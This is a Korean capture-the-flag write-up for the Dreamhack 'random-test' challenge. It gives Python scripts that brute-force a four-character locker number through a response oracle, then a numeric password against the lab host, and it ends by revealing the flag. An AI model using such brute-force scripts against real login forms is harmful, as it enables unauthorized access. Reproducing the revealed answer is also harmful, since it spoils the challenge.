

# random-test

### 1. VM에 접속한다

사물함 번호와 자물쇠 비밀번호를 입력하는 페이지를 확인한다.

### 2. 코드 분석

풀이 스크립트에서는 `string.ascii_lowercase + string.digits`로 **영문 소문자 a~z와 숫자 0~9를 순서대로 시도**한다. `for _ in range(4)`는 4자리 번호를 찾기 위해 같은 과정을 네 번 반복하는 부분이다.

```python
import string
import requests

URL = "http://host3.dreamhack.games:12112/"
locker = ""

for _ in range(4):
    for c in string.ascii_lowercase + string.digits:
        candidate = locker + c
        r = requests.post(URL, data={"locker_num": candidate, "password": ""})
        if "Good" in r.text:
            locker = candidate
            break
    else:
        raise RuntimeError("번호를 찾지 못함")

print("사물함 번호:", locker)

# (생략)

for password in range(100, 201):
    r = requests.post(URL, data={"locker_num": locker, "password": str(password)})
    if "FLAG:" in r.text:
        print(r.text)
        break
```

`candidate = locker + c`는 현재까지 찾은 번호에 문자를 하나 붙여 요청한다. 응답에 `Good`이 있으면 해당 문자를 `locker`에 저장하고 다음 자리로 넘어간다.

**문자를 무작위로 생성하거나 매번 출력하는 코드는 아니다.** `print("사물함 번호:", locker)`는 네 자리를 찾은 후 최종 번호를 출력한다.

### 3. 사물함 번호를 찾는다

```python
import string
import requests

URL = "http://host3.dreamhack.games:12112/"
locker = ""

for _ in range(4):
    for c in string.ascii_lowercase + string.digits:
        candidate = locker + c
        r = requests.post(URL, data={"locker_num": candidate, "password": ""})
        if "Good" in r.text:
            locker = candidate
            break
    else:
        raise RuntimeError("번호를 찾지 못함")

print("사물함 번호:", locker)
```

영문 소문자와 숫자를 하나씩 대입하여 `Good` 응답이 나오면 해당 문자를 추가한다.

이 과정을 4번 반복한 결과, 사물함 번호는 **`9yuy`**였다.

### 4. 자물쇠 비밀번호를 찾는다

```python
for password in range(100, 201):
    r = requests.post(URL, data={"locker_num": locker, "password": str(password)})
    if "FLAG:" in r.text:
        print("비밀번호:", password)
        print(r.text)
        break
```

확인한 사물함 번호로 비밀번호 **100~200**을 차례대로 대입한다. 응답에 `FLAG:`가 포함된 값을 확인한 결과, 비밀번호는 **`161`**이었다.

### 5. FLAG를 확인한다



FLAG: `DH{2e583205a2555b8890d141b51cee41379cead9a65a957e72d4a99568c0a2f955}`
